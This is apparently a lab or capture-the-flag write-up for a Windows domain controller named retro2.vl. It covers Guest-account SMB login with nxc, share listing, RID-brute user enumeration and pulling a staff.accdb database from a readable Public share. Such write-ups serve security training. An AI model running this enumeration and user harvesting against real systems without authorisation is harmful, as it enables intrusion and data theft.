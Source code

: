 > adding domain names to `/etc/hosts` :

```sh
$ echo '10.10.65.246      BLN01.retro2.vl  retro2.vl' | sudo tee -a /etc/hosts
```
``Guest `account is not disabled , i try take advantage from this , enumerates shares, users, and other services to get access to the target 
```sh
$ nxc smb retro2.vl -u 'Guest' -p ''  
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\Guest: 
```

#### Shares Enumeration

```sh
$ nxc smb retro2.vl -u 'Guest' -p ''  --shares
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\Guest: 
SMB         10.10.65.246    445    BLN01            [*] Enumerated shares
SMB         10.10.65.246    445    BLN01            Share           Permissions     Remark
SMB         10.10.65.246    445    BLN01            -----           -----------     ------
SMB         10.10.65.246    445    BLN01            ADMIN$                          Remote Admin
SMB         10.10.65.246    445    BLN01            C$                              Default share
SMB         10.10.65.246    445    BLN01            IPC$                            Remote IPC
SMB         10.10.65.246    445    BLN01            NETLOGON                        Logon server share 
SMB         10.10.65.246    445    BLN01            Public          READ            
SMB         10.10.65.246    445    BLN01            SYSVOL                          Logon server share 
```
#### Users Enumeration

```sh
$ nxc smb retro2.vl -u 'Guest' -p ''  --rid-brute  | grep 'SidTypeUser' > users
$ cat users  | awk '{print $6}' | cut -d '\' -f 2 > users.txt ; rm users
```
> there is a `Public` share tha we can read, so let's see what is there 
```sh
$ smbclient //retro2.vl/Public 'Guest'
Try "help" to get a list of possible commands.
smb: \> 
smb: \> ls
  .                                   D        0  Sat Aug 17 16:30:37 2024
  ..                                  D        0  Sat Aug 17 16:30:37 2024
  DB                                  D        0  Sat Aug 17 14:07:06 2024
  Temp                                D        0  Sat Aug 17 13:58:05 2024

		6290943 blocks of size 4096. 1332470 blocks available
smb: \> cd DB\
smb: \DB\> ls
  .                                   D        0  Sat Aug 17 14:07:06 2024
  ..                                  D        0  Sat Aug 17 14:07:06 2024
  staff.accdb                         A   876544  Sat Aug 17 16:30:19 2024

		6290943 blocks of size 4096. 1328797 blocks available
smb: \DB\> get staff.accdb 
getting file \DB\staff.accdb of size 876544 as staff.accdb (1990.7 KiloBytes/sec) (average 1990.7 KiloBytes/sec)
smb: \DB\> cd ..
smb: \> ls
  .                                   D        0  Sat Aug 17 16:30:37 2024
  ..                                  D        0  Sat Aug 17 16:30:37 2024
  DB                                  D        0  Sat Aug 17 14:07:06 2024
```